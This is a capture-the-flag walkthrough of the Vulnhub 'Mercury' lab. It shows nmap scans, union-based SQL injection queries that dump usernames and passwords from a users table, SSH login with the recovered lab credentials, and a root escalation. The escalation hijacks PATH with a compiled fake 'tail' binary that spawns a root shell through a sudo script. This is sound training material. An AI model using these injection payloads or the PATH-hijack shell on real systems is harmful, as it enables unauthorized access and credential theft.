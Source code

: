 ```yaml
---
title: "Vulnhub: Mercury"
layout: archive
date:   2020-09-25
tags: Vulnhub
tags_label: true
---
```


This machine is of beginner difficulty. It's a good one to practice basic skills. It is always nice when creators write their own apps for custom exploitation :). This is one of my older writeups, I don't explain my steps :(.

### Scanning:

```
Nmap scan report ​ for​ 192.168.56.110
Host is up (0.00013s latency).
Not​ shown: 998 closed ports
PORT STATE​ SERVICE
22/tcp
open ssh
8080/tcp open http-proxy
```

### More Thorough Scan:

```
crazyeights@es-base:~$ nmap -A -p- 192.168.56.110
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-25 11:48 EDT
Nmap scan report for 192.168.56.110
Host is up (0.000062s latency).
Not shown: 65533 closed ports
PORT STATE  SERVICE     VERSION
22/tcp open ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux;
protocol 2.0)
8080/tcp open http-proxy WSGIServer/0.2 CPython/3.8.2
| fingerprint-strings:
[SNIP]
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: WSGIServer/0.2 CPython/3.8.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
crazyeights@es-base:~$
```

### Web:

Using Insomnia:
    
![](/assets/images/mercury/m1.png)

Checking out /mercuryfacts/
![](/assets/images/mercury/m2.png)
In the todo page, you can see there is a users table in the Database:
![](/assets/images/mercury/m3.png)
Checking out Mercury Facts, trying loading a fact:    
![](/assets/images/mercury/m4.png)

### SQLI:

Trying to perform SQLi on this page, with an error gives you the sql error:
![](/assets/images/mercury/m5.png)

#### Properly performing SQLi:

![](/assets/images/mercury/m6.png)

##### Getting the schema of the users table:

```
1 union select column_name from information_schema.columns where
table_name=​ 'users'
```

![](/assets/images/mercury/m7.png)

##### Get usernames from users table:

```
http://192.168.56.110:8080/mercuryfacts/1 union select username from users/
```

![](/assets/images/mercury/m8.png)

##### Get passwords from users table:

```
http://192.168.56.110:8080/mercuryfacts/1 union ​ select​ password from users/

Fact ​ id:​ ​ 1 ​ ​ union​ ​ select​ ​ password​ ​ from​ ​ users​ . (('Mercury​ ​ does​ ​ not​ ​ have​ ​ any
moons​ ​ or​ ​ rings​.',), ('​johnny1987​',), ('​lovemykids111​',),
('​lovemybeer111​',), ('​mercuryisthesizeof0​.056​ Earths​',))
```

![](/assets/images/mercury/m10.png)

### SSH:

Trying the credentials found in the user table, the one for webmaster works `webmaster:mercuryisthesizeof0.056Earths`

#### Logging in:

```
crazyeights​@es-base:​~$ ssh webmaster​@192​.168.56​.110
```

#### Getting user flag:

![](/assets/images/mercury/m11.png)

### Priv Esc:

Finding another user:
![](/assets/images/mercury/m12.png)
Decode from base64:
![](/assets/images/mercury/m13.png)

User credentials: `linuxmaster:​ mercurymeandiameteris4880km`

### Find commands user can run as root:

![](/assets/images/mercury/m14.png)

Checking out syslog:

![](/assets/images/mercury/m15.png)

```
linuxmaster@mercury:/home/webmaster/mercury_proj$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/​ log​ /syslog
```

Since user can keep their environment vars when running check\_syslog as root, create a new tail bin, to run instead of the intended tail, and add its path before the intended tail.

#### Creating a tail bin to get a root shell:

```
linuxmaster@mercury:~$ cat tail.c
#include <unistd.h>
void​ main​(int​ argc, char​ *argv[]){
    setuid(​0);
    setgid(​0);
    system(​"/bin/sh -i"​);
}
```

![](/assets/images/mercury/m16.png) ![](/assets/images/mercury/m18.png)

#### Update PATH:

```
export ​ PATH=/tmp:$PATH
```

![](/assets/images/mercury/m17.png)

Run the script:

```
sudo --preserve-env-PATH /usr/bin/check_syslog.sh
```

Get root flag:

![](/assets/images/mercury/m20.png)

FIN.